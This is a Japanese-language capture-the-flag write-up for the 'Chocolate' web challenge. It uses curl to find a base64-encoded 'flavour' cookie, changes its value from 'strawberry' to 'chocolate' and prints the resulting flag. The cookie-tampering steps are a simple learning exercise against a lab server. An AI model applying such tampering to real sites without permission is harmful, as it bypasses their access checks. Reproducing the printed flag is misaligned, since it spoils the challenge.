

# Chocolate:Web:400pts
My friend is only willing to eat chocolate. Any other food he rejects.  
  
Mon ami ne veut manger que du 'chocolate'. Toute autre saveur il refuse.  
[http://143.198.224.219:11111/](http://143.198.224.219:11111/)  
Hint  
You just need to change the cookie value to the correct value.  

# Solution
URLが渡されるのでcurlでアクセスしてみる。  
```bash
$ curl http://143.198.224.219:11111/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Oreo</title>
</head>
<body>
    <div> My nephew is a fussy eater and is only willing to eat chocolate oreo. Any other flavour and he throws a tantrum.</div>
</body>
</html>
```
chocolateしか食べないようだ。  
その他ページもないので、ヘッダ情報を確認する。  
```bash
$ curl http://143.198.224.219:11111/ --head
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: flavour=c3RyYXdiZXJyeQ%3D%3D; Path=/
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Sat, 05 Mar 2022 20:07:39 GMT
ETag: W/"14f-17f5bb1e2f8"
Content-Type: text/html; charset=UTF-8
Content-Length: 335
Date: Wed, 23 Mar 2022 11:01:47 GMT
Connection: keep-alive
Keep-Alive: timeout=5

```
それらしきものがCookieに入っているのでデコードする。  
```bash
$ echo "c3RyYXdiZXJyeQ==" | base64 -d
strawberry
```
これをchocolateにすればよさそうだ。  
```bash
$ echo -n "chocolate" | base64
Y2hvY29sYXRl
$ curl http://143.198.224.219:11111/ -H "Cookie: flavour=Y2hvY29sYXRl"
OFPPT-CTF{C00k13s_n33d_ch0c0l4t3_fl4v0r}
```
flagが得られた。  

## OFPPT-CTF{C00k13s_n33d_ch0c0l4t3_fl4v0r}